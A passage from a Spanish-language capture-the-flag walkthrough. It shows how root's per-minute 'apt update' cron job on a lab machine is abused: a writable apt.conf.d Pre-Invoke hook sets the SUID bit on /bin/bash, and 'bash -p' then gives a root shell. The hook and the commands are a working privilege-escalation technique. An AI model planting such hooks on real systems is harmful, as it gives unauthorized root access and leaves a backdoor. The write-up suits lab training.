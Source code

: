 ```bash
2025/08/12 22:29:47 CMD: UID=0     PID=8279   | /usr/bin/perl -w /usr/bin/apt-show-versions -i 
2025/08/12 22:29:48 CMD: UID=0     PID=8280   | /usr/bin/perl -w /usr/bin/apt-show-versions -i 
2025/08/12 22:29:48 CMD: UID=0     PID=8281   | /usr/bin/perl -w /usr/bin/apt-show-versions -i 
2025/08/12 22:29:48 CMD: UID=0     PID=8282   | /usr/bin/perl -w /usr/bin/apt-show-versions -i 
2025/08/12 22:29:48 CMD: UID=0     PID=8283   | /usr/bin/perl -w /usr/bin/apt-show-versions -i 
2025/08/12 22:29:48 CMD: UID=0     PID=8284   | /usr/bin/apt update 
2025/08/12 22:29:49 CMD: UID=0     PID=8285   | /usr/bin/apt update
```
Observa que cada minuto se está ejecutando el comando **apt update** como el **Root**.

Sabiendo esto, ahora sí es posible que podamos escalar privilegios con el directorio **apt.conf.d**.

Vamos a crear un **hook** que ejecute un comando que asigne **permisos SUID** a la **Bash**.

Revisa los permisos de la **Bash**:
```bash
melon@TheHackersLabs-Melonjamon:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1265648 Mar 29  2024 /bin/bash
```

Usaremos el **hook** `APT::Update::Pre-Invoke` (aunque puede ser cualquiera de los dos), siguiendo la misma sintaxis que los demás archivos de **APT** para ejecutar comandos:
```bash
melon@TheHackersLabs-Melonjamon:~$ cd /etc/apt/apt.conf.d
melon@TheHackersLabs-Melonjamon:~$ nano 02privesc
--------------
APT::Update::Pre-Invoke {"chmod u+s /bin/bash";};
```

Una vez creado, esperemos un minuto y vuelve a revisar los permisos de la **Bash**:
```bash
melon@TheHackersLabs-Melonjamon:/etc/apt/apt.conf.d$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Mar 29  2024 /bin/bash
```
Excelente, funcionó.

Podemos ejecutar la **Bash** con privilegios:
```bash
melon@TheHackersLabs-Melonjamon:/etc/apt/apt.conf.d$ bash -p
bash-5.2# whoami
root
```
Somos **Root**.

Obtengamos la última flag:
```bash
bash-5.2# cd /root
bash-5.2# ls
root.txt
bash-5.2# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>
